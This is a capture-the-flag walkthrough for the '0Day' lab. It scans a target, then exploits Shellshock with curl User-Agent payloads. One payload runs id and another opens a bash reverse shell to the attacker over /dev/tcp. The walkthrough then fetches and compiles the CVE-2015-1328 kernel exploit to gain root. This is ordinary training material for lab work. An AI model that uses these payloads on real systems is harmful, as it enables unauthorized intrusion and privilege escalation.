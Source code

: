 #Title: 0Day
#Difficulty: Medium
#Type: Kernel Exploit
#By Fagan Afandiyev.

```shell
THM="10.10.78.47"
```

```bash
nmap -sC -sV $THM
```

```shell
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 57:20:82:3c:62:aa:8f:42:23:c0:b8:93:99:6f:49:9c (DSA)
|   2048 4c:40:db:32:64:0d:11:0c:ef:4f:b8:5b:73:9b:c7:6b (RSA)
|   256 f7:6f:78:d5:83:52:a6:4d:da:21:3c:55:47:b7:2d:6d (ECDSA)
|_  256 a5:b4:f0:84:b6:a7:8d:eb:0a:9d:3e:74:37:33:65:16 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: 0day
|_http-server-header: Apache/2.4.7 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There are 2 ports open: 22,80. We see that there is a website running here.

Lets check with nikto.

```bash
nikto --url http://$THM  
```

```shell
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.10.78.47
+ Target Hostname:    10.10.78.47
+ Target Port:        80
+ Start Time:         2023-11-12 19:57:39 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/2.4.7 (Ubuntu)
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ Apache/2.4.7 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ /: Server may leak inodes via ETags, header found with file /, inode: bd1, size: 5ae57bb9a1192, mtime: gzip. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1418
+ OPTIONS: Allowed HTTP Methods: GET, HEAD, POST, OPTIONS .
+ /cgi-bin/test.cgi: Uncommon header '93e4r0-cve-2014-6271' found, with contents: true.
+ /cgi-bin/test.cgi: Site appears vulnerable to the 'shellshock' vulnerability. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6278
+ /admin/: This might be interesting.
+ /backup/: This might be interesting.
+ /css/: Directory indexing found.
+ /css/: This might be interesting.
+ /img/: Directory indexing found.
+ /img/: This might be interesting.
+ /secret/: This might be interesting.
+ /cgi-bin/test.cgi: This might be interesting.
+ /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/


```

There are couple important parts to look at: */admin/* */backup/* */secret/*.
*/admin/* and */secret/* directories are empty but backup includes s ssh key that we can decrypty but there are more to look at right now.

It appears that there is a `shellshock` vulnerability at `/cgi-bin/test.cgi`. We can use curl to exploit it and run commands in server.

```bash
curl -A "() { ignored; }; echo Content-Type: text/plain ; echo ; echo ; /usr/bin/id" http://$THM/cgi-bin/test.cgi
```

```shell
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
We proved this website is vulnerable to shellshock. We can change the code and get a reverse shell.
Lets first start listening with netcat.

```bash
nc -lnvp 22
```


```bash
curl -A "() { ignored; }; echo Content-Type: text/plain ; echo ; echo ; /bin/bash -c 'bash -i >& /dev/tcp/10.6.87.204/22 0>&1'" http://$THM/cgi-bin/test.cgi 
```

```bash
www-data@ubuntu:/usr/lib/cgi-bin$ cat /home/ryan/user.txt
<Redacted>
```

```bash
www-data@ubuntu:/usr/lib/cgi-bin$ whoami
whoami
www-data
```

```bash
www-data@ubuntu:/usr/lib/cgi-bin$ uname -a
uname -a
Linux ubuntu 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
```

This version of linux is vulnerable to CVE-2015-1328.
We need to get the exploit to the server for that we will need to download to our own machine and create a python server and wget from our machine.

```bash
#Attacker 
wget https://www.exploit-db.com/download/37292
python -m http.server 
#Enemy
cd /tmp/
wget 10.6.87.204:8000/37292.c
gcc 37292.c -o privesc
```

```shell
gcc: error trying to exec 'cc1': execvp: No such file or directory
```
```bash
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

```bash
gcc 37292.c -o privesc
./privesc
```
BOOM!!! We are root. We can now go and get the root flag.

```bash
cd /root/
cat root.txt 
<Redacted>
```
